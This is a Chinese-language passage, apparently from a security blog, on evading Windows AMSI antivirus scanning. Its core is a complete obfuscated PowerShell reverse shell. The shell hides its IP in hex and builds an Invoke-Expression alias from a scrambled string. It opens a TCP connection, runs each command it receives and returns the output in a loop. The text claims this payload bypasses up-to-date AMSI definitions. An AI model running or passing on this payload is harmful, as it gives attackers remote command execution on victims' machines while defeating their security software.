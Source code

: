 现在你们中的一些人可能想知道，为什么我没有混淆代码的其余部分，而是更专注于 IEX 部分。原因是当你剥离整个代码并在 PowerShell 中逐一执行它们时，您将意识到 **IEX** 是由 AMSI 标记的部分，而不是任何其他部分。但请随意混淆有效载荷的其余部分。以下是上述 payload 的完整变形：  

```
while ($true) {$px = "c0","a8","38","1";$p = ($px | ForEach { [convert]::ToInt32($_,16) }) -join '.';$w = "GET /index.html HTTP/1.1`r`nHost: $p`r`nMozilla/5.0 (Windows NT 10.0; WOW64; rv:56.0) Gecko/20100101 Firefox/56.0`r`nAccept: text/html`r`n`r`n";$s = [System.Text.ASCIIEncoding];[byte[]]$b = 0..65535|%{0};$x = "n-eiorvsxpk5";Set-alias $x ($x[$true-10] + ($x[[byte]("0x" + "FF") - 265]) + $x[[byte]("0x" + "9a") - 158]);$y = New-Object System.Net.Sockets.TCPClient($p,80);$z = $y.GetStream();$d = $s::UTF8.GetBytes($w);$z.Write($d, 0, $d.Length);$t = (n-eiorvsxpk5 whoami) + "$ ";while(($l = $z.Read($b, 0, $b.Length)) -ne 0){;$v = (New-Object -TypeName $s).GetString($b,0, $l);$d = $s::UTF8.GetBytes((n-eiorvsxpk5 $v 2>&1 | Out-String )) + $s::UTF8.GetBytes($t);$z.Write($d, 0, $d.Length);}$y.Close();Start-Sleep -Seconds 5}
```

最后，我们针对 AMSI 进行了测试。正如您在下面看到的，病毒库已更新到最新版本。它仍然阻止默认有效负载，但当我们使用自定义有效负载时，它会绕过 AMSI。

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAfdPfUrbQvOKmr2UY5IiakdjMPLkTfmJyniamkTzN6SoZBJ2TWqdqc8lHmFCDiaT6wKcwS3JAoNewjadg/640?wx_fmt=png)